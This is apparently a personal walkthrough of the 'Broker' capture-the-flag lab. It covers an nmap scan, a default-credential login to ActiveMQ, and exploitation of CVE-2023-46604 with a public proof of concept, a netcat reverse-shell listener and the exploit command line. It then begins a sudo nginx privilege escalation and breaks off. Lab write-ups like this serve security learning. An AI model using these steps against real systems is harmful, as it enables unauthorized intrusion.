



Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login

* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link

* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
		* `python -m http.server 8081`
	* Also need a nc listener
		* `sudo nc -nlvp 8100`
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
		* The target port is **NOT** port 80, but 61616
			* port 80 is the UI
			* port 61616 is the default port it's running on
* This will call back as a reverse shell for the user `activemq`
	* the home directory has the user flag
# Root
* First thought is to see if root is not password protected with `sudo su` but no luck
* I then decided to list the allowed (and forbidden) commands for the invoking user on the current host with `sudo -l` 
	* This command helps users understand what privileges they have when using sudo

* I was able to see that the activemq user is able to run the nginx command with sudo privileges
* I then researched nginx privilege escalation and found [this git repo](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)
* 